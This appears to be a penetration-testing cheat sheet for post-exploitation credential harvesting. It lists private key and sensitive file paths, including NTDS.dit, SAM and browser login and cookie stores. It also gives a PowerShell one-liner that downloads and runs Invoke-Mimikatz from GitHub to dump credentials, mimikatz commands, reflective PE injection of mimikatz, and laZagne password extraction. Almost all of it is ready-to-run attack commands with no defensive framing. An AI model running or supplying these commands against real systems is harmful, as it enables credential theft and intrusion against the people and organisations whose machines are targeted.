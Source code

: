 ### git folder
```
directory name = .git
python3 git_extract.py gitfilename
```
### Private key
```
.ssh/id_rsa||id_dsa||id_ecdsa||id_ed25519||id_ecdsa-sk||id_ed25519-sk
```
bitvise ssh private key path on windows
```
C:\Users\username\.ssh\id_rsa||id_dsa||id_ecdsa||id_ed25519||id_ecdsa-sk||id_ed25519-sk
```
### Sensitive files
```
find *.log, passwd, username, credential
C:\Users\username\Documents
C:\Users\username\Downloads
*.gpg
*.pgp
*config*.php
elasticsearch.y*ml
kibana.y*ml
*.p12
*.der
*.csr
*.cer
known_hosts
id_rsa
id_dsa
*.ovpn
anaconda-ks.cfg
hostapd.conf
rsyncd.conf
cesi.conf
supervisord.conf
tomcat-users.xml
*.kdbx
KeePass.config
Ntds.dit
SAM
SYSTEM
FreeSSHDservice.ini
access.log
error.log
server.xml
ConsoleHost_history.txt
.github folder
setupinfo
setupinfo.bak
*.bak, *.db
*.pdf
*.zip
*.7z
*.gz
*.sitx
*.rar
%LOCALAPPDATA%\Google\Chrome\User Data\Default\Login Data
%LOCALAPPDATA%\Google\Chrome\User Data\Default\Network
%LOCALAPPDATA%\Google\Chrome\User Data\Default\Network\Cookies
%LOCALAPPDATA%\Google\Chrome\User Data\Local State
%LOCALAPPDATA%\Microsoft\Edge\User Data\Default\Login Data
%LOCALAPPDATA%\Microsoft\Edge\User Data\Default\Network
%LOCALAPPDATA%\Microsoft\Edge\User Data\Default\Network\Cookies
%LOCALAPPDATA%\Microsoft\Edge\User Data\Local State
%APPDATA%\Roaming\Microsoft\Protect\<SID> -> DPAPI Keys
%SystemRoot%\NTDS\ntds.dit(Active Directory database)
%SystemRoot%\System32\winevt\Logs\Microsoft-Windows-TerminalServices-LocalSessionManager%4Operational.evtx(Windows event logs)
```
### Linux Web Service
```
Check all the folders and files under var/www/html
```
### tcpdump to capture packets 
```
tcpdump -i any udp -vvv
```
### History
```
Linux:
check all user's .bash_history
/home/user/.bash_history
```
### Password Hash
```
powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"
```
Mimikatz - sekurlsa::logonpasswords  
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit  
lsadump::cache  
sekurlsa::tickets


###### Load mimikatz and run it locally.  
```
$PEBytes = [IO.File]::ReadAllBytes('mimiikatz.exe')  
Invoke-ReflectivePEInjection -PEBytes $PEBytes -ExeArgs "privilege::debug sekurlsa::logonpasswords Arg3 Arg4"
https://github.com/KiritoLoveAsuna/Penetration-Testing/blob/main/Invoke-ReflectivePEInjection.ps1
```
Pwdump
>It is recommended to extrast hashes using both mimikatz and pwdump

### Password Retriver
```
laZagne.exe all
```
